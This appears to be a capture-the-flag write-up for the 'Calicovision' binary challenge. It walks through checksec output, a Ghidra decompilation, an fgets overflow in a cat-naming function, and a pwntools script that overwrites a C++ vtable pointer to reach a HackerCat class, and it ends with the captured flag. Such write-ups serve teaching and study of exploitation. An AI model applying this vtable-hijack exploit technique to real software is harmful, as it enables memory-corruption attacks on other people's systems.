

# Calicovision

The problem provides a single binary named `"calicovision"`.

## checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## file
```
./calicovision: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=0c5c5e040945d78b497b9828ad3fa2b9db950127, for GNU/Linux 3.2.0, with debug_info, not stripped
```

After decompiling the binary using ghidra and locating main, the first thing that you see is this:
```
  ppcVar5 = (char **)(cat_banners.
                      super__Vector_base<std::__cxx11::basic_string<char,_std::char_traits<char>,_std::allocator<char>_>,_std::allocator<std::__cxx11: :basic_string<char,_std::char_traits<char>,_std::allocator<char>_>_>_>
                      ._M_impl._0_8_ +
                     ((ulong)(long)iVar3 %
                     (ulong)(cat_banners.
                             super__Vector_base<std::__cxx11::basic_string<char,_std::char_traits<char>,_std::allocator<char>_>,_std::allocator<std::_ _cxx11::basic_string<char,_std::char_traits<char>,_std::allocator<char>_>_>_>
                             ._M_impl._8_8_ -
                             cat_banners.
                             super__Vector_base<std::__cxx11::basic_string<char,_std::char_traits<char>,_std::allocator<char>_>,_std::allocator<std::_ _cxx11::basic_string<char,_std::char_traits<char>,_std::allocator<char>_>_>_>
                             ._M_impl._0_8_ >> 5)) * 0x20);
```
And this should immeadiately be recognizable as c++ code. Not only is cxx11 present everywhere, but only c++ would ever generate such a horrible monstrosity.

The important part of the code is that it allocates an array of 64 cats. Each cat is a subclass of the parent `Cat` class.

The `Cat` class consists of the following fields:


The first field is the class vtable, and the second is a 64 byte buffer that holds the name of the cat.

In the function `name_cat` there is some vulnerable code.
```
    __s = pCVar2->m_name_;
    fgets(__s,0x80,(FILE *)stdin);
```
fgets is called on the name buffer of a `Cat` instance, but instead of allowing 64 bytes it allows 128 bytes, resulting in an overflow of 64 bytes.

A few months ago, I watched a [video](https://www.youtube.com/watch?v=HClSfuT2bFA) explaining how c++ implements virtual functions. I recommend watching the video first. Short summary, c++ implements virtual functions using a virtual table (vtable), which is a list of function pointers. The vtables are readonly and cannot be modified to prevent modifying the vtables to call arbitrary functions. The issue with this is that while the vtables themselves are not writable, the vtable pointers contained in the first qword of every class if modifiable.

Searching for the symbol `vtable` in the ghidra symbol tree yields around 20 results. Looking through the vtables there is a class called `HackerCat`. This seems suspicious.

Using the overflow into a `Cat` instance we can overwrite the next `Cat` instance's vtable pointer with the `HackerCat` vtable pointer.

```python
from pwn import *

file = ELF("./calicovision")

delim = b"[Q] Quit\n"
end = b"What would you like to do?"

def clist ():
    io.sendlineafter(delim, b"A")
    d = io.recvuntil(end)[:-len(end)]
    return d.strip().split("\n")

def name (data):
    io.sendlineafter(delim, b"B")
    n = io.recvline().strip()
    print(n)
    io.sendlineafter(b": ", data)
    return int(n[n.index(b"#")+1:])

def pet (index):
    io.sendlineafter(delim, b"C")
    io.sendlineafter(b"? ", str(index).encode())

if args.EXPLOIT:
    io = remote("calicovision.wpi-ctf-2022-codelab.kctf.cloud", 1337)
else:
    io = process("./calicovision")

hacker_cat = 0x5b0068

a = name(b"G" * 71 + b"\x00" + p64(hacker_cat) + b"???")
victim = a+1
print(f"victim cat is {victim}")

pet(victim)

print(io.recvline())
print(io.recvline())
```

Thankfully this works (because I have no idea what else to do) and outputs:
```
b'>>> Naming cat #10'
victim cat is 11
b'Petting cat #11...\n'
b'You approach the hacker cat to pet it, but it yowls at you: WPI{c0rrup73d_c475_cr3473_ch405}\n'
```

# Flag: WPI{c0rrup73d_c475_cr3473_ch405}